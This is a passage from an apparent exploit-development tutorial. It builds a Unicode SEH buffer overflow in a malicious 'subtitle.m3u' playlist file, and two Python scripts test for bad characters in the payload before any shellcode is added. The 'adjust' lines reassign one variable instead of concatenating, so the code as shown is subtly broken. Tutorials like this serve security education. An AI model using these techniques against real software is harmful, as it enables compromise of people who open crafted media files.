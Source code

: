 You should quickly realize that in that line \\x00 is not a valid character. Remove it and try again.



> #!/usr/bin/python
> junk  = "\\x41" \* 4078
> nseh = "\\x61\\x62"
> seh = "\\xeb\\x46" \* 2
> adjust = "\\x53" # PUSH EBX
> adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
>                          # after the \\x53 instruction in memory
> adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> adjust = "\\x62" # NOP padding
> adjust = "\\x50" # PUSH EAX to push eax to the stack...
> adjust = "\\x62" # NOP padding
> adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> buffer = "\\x62" \* 12
> junk2  =  "\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e"
> 
> exploit = junk + nseh + seh + adjust + buffer + junk2
> handler = open ("subtitle.m3u", "w")
> handler.write(exploit)
> handler.close()



We see we still have a problem. Lets split the string up into two segments of equal length and try the first segment.


> #!/usr/bin/python
> junk  = "\\x41" \* 4078
> nseh = "\\x61\\x62"
> seh = "\\xeb\\x46" \* 2
> adjust = "\\x53" # PUSH EBX
> adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
>                          # after the \\x53 instruction in memory
> adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> adjust = "\\x62" # NOP padding
> adjust = "\\x50" # PUSH EAX to push eax to the stack...
> adjust = "\\x62" # NOP padding
> adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> buffer = "\\x62" \* 12
> junk2  =  "\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08"
> 
> exploit = junk + nseh + seh + adjust + buffer + junk2
> handler = open ("subtitle.m3u", "w")
> handler.write(exploit)
> handler.close()

This appears to work. All of the bytes appear in memory correctly and none of them seem to have been changed at all (note that the \\x00 's that you see before and after each byte in this string are normal as the program will translate these bytes into Unicode)

Lets try with the other string again:
